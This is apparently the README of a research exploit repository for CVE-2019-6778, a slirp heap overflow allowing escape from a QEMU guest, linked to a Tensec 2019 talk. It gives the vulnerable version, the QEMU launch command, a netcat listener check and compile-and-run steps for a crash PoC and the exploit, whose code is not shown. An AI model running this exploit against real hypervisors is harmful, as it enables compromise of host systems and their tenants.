 # qemu-vm-escape

This is an exploit for [CVE-2019-6778](https://bugzilla.redhat.com/show_bug.cgi?id=1664205), a heap buffer overflow in slirp:tcp_emu(). For
more information, see the [writeup](writeup_zh.md) (Sorry, only Chinese version available now) and the [slides](./Tensec2019-Vulnerability_Discovery_and_Exploitation_of_Virtualization_Solutions_for_Cloud_Computing_and_Desktops.pdf) for the talk in Tensec 2019 by [Marco](https://twitter.com/marcograss) and [me](https://twitter.com/KiraCxy).

## Environment

```shell
$ ./qemu-system-x86_64 --version
QEMU emulator version 3.1.50 (v3.1.0-456-g9b2e891ec5-dirty)
Copyright (c) 2003-2018 Fabrice Bellard and the QEMU Project developers
```

Command used to start QEMU

```shell
./qemu-system-x86_64_exp -drive file=ubuntu-18.04-desktop-amd64.snapshot.qcow2,format=qcow2 -enable-kvm -m 2G -L ./pc-bios -smp 1 -device VGA -net user,hostfwd=tcp::2222-:22 -net nic
```

## Run

To simply verify the QEMU is vulnerable, run `sudo nc -lvv 113` on the host. Then compile and run the [crash poc](crash_poc.c) in the guest.

For the exploit:

Compile

```shell
gcc -o exp exp.c
```

Set MTU for the network card before running the exploit

```shell
ifconfig ens2 mtu 9000 up
```

Then

```shell
./exp
```

